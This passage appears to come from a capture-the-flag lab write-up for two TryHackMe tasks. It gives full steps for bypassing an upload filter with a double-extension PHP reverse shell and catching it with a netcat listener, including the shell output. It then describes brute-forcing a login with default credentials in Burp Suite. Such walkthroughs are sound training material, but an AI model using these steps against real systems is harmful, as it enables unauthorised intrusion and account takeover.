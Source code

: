 The source code contains a hint `<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">` of file extensions which are accepted for uploads.

Use `gobuster` to get directories that store uploaded files. Check the redirected entry from the output.
{% capture code %}{% raw %}gobuster dir -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -q --wildcard | grep upload{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}/<dir> (Status: 301){% endraw %}{% endcapture %} {% include code.html code=code%}

Download [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php){:target="_blank"} or copy from kali webshells.
{% capture code %}{% raw %}cp /usr/share/webshells/php/php-reverse-shell.php php-reverse-shell.jpg.php{% endraw %}{% endcapture %} {% include code.html code=code%}

Edit the `php-reverse-shell` file and update the localhost ip.
{% capture code %}{% raw %}vim php-reverse-shell.jpg.php
$ip = '<local-ip>'{% endraw %}{% endcapture %} {% include code.html code=code%}

Create a `netcat` reverse shell to listen from the php reverse shell payload.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `firefox` to upload the modified `php-reverse-shell`.
{% capture code %}{% raw %}http://<ip>/?id=ODIzODI5MTNiYmYw
  - select
    - php-reverse-shell.jpg.php
    - submit{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained in the `netcat` reverse shell session. Check contents of file `/var/www/flag.txt` for the flag.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 1234)
Connection from <ip> 45520 received!
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
12:18:09 up  1:44,  0 users,  load average: 0.00, 1.24, 1.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)

sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt
  <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}


## Task 8 - Day 3 - Web Exploitation - Christmas Chaos

This task is about using `burpsuite` to brute-force payloads using commonly used usernames and passwords.


Use these links as references.
- [TryHackMe supporting material](https://www.youtube.com/watch?v=cQq6xPCZFjg&){:target="_blank"}


Use `burpsuite` to manipulate login credentials.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Use `firefox` to login to `http://<ip>` using any dummy credentials
- In `Burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `Burpsuite`, in `intruder` tab, and in `positions` tab, select `username` and `password`, select `cluster bomb`
- In `Burpsuite`, in `intruder` tab, and in `payloads` tab, in `set 1`, add `root`, `admin`, and `user`, and in `set 2`, add `password`, `admin and `12345`, and `start attack`
- From the results in `Burpsuite`, get the credentials and login to `http://<ip>` using `firefox` to get the `flag`
- Quit `burpsuite` and reverse proxy setting in `firefox`
